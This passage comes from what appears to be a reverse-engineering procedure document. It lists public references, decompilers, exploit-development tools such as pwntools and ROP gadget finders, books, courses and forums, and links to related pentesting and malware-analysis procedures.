- **WinAPI Index** - [docs.microsoft.com/en-us/windows/win32/api](https://docs.microsoft.com/en-us/windows/win32/api/)

**Linux:**
- **Linux Syscall Reference** - [man7.org/linux/man-pages/man2/syscalls.2.html](https://man7.org/linux/man-pages/man2/syscalls.2.html)
- **Linux Kernel Documentation** - [kernel.org/doc](https://www.kernel.org/doc/)

**.NET:**
- **dnSpy** - [github.com/dnSpy/dnSpy](https://github.com/dnSpy/dnSpy)
- **.NET Deobfuscation Guide** - [github.com/NotPrab/.NET-Obfuscator](https://github.com/NotPrab/.NET-Obfuscator)

**Android:**
- **JADX** - [github.com/skylot/jadx](https://github.com/skylot/jadx)
- **Frida for Android** - [frida.re/docs/android](https://frida.re/docs/android/)

### Pwntools & Automation
- **pwntools Documentation** - [docs.pwntools.com](https://docs.pwntools.com/)
  - Python exploit development framework
- **ROPgadget** - [github.com/JonathanSalwan/ROPgadget](https://github.com/JonathanSalwan/ROPgadget)
  - ROP gadget finder
- **ropper** - [github.com/sashs/Ropper](https://github.com/sashs/Ropper)
  - Advanced ROP gadget finder with semantic search
- **one_gadget** - [github.com/david942j/one_gadget](https://github.com/david942j/one_gadget)
  - Find one-shot RCE gadgets in libc

### Books & Courses
- **Practical Reverse Engineering** by Bruce Dang et al.
- **The IDA Pro Book** by Chris Eagle
- **Reversing: Secrets of Reverse Engineering** by Eldad Eilam
- **The Art of Software Security Assessment** by Mark Dowd et al.
- **Hacking: The Art of Exploitation** by Jon Erickson
- **SANS FOR610: Reverse-Engineering Malware**
- **SANS FOR710: Reverse Engineering Malware Advanced**
- **RPISEC Modern Binary Exploitation (MBE)** - [github.com/RPISEC/MBE](https://github.com/RPISEC/MBE)

### Community & Forums
- **Reddit r/ReverseEngineering** - [reddit.com/r/ReverseEngineering](https://www.reddit.com/r/ReverseEngineering/)
- **OpenRCE** - [openrce.org](http://www.openrce.org/)
  - Reverse engineering community (historical, less active now)
- **Tuts4You** - [tuts4you.com](https://tuts4you.com/)
  - Cracking/reversing tutorials and forums
- **OSDev Wiki** - [osdev.org](https://wiki.osdev.org/)
  - OS development and low-level programming

---

**Related SOPs:**

**Analysis:**
- [[sop-malware-analysis|Malware Analysis]] - Comprehensive malware reverse engineering and behavioral analysis
- [[sop-cryptography-analysis|Cryptography Analysis]] - Analyzing encryption and cryptographic implementations
- [[sop-hash-generation-methods|Hash Generation Methods]] - File integrity and hash analysis techniques

**Pentesting & Security:**
- [[../Pentesting/sop-linux-pentest|Linux Pentesting]] - Linux exploitation and privilege escalation
- [[../Pentesting/sop-ad-pentest|Active Directory Pentesting]] - Windows AD security assessment
- [[../Pentesting/sop-web-application-security|Web Application Security]] - Web app vulnerability assessment
- [[../Pentesting/sop-mobile-security|Mobile Security]] - Android/iOS security testing
- [[../Pentesting/sop-firmware-reverse-engineering|Firmware Reverse Engineering]] - IoT and embedded device analysis
- [[../Pentesting/sop-vulnerability-research|Vulnerability Research]] - Finding and analyzing security flaws
- [[../Pentesting/sop-bug-bounty|Bug Bounty Hunting]] - Responsible vulnerability disclosure
- [[../Pentesting/sop-detection-evasion-testing|Detection Evasion Testing]] - Bypassing security controls
- [[../Pentesting/sop-forensics-investigation|Forensics Investigation]] - Digital forensics and incident response
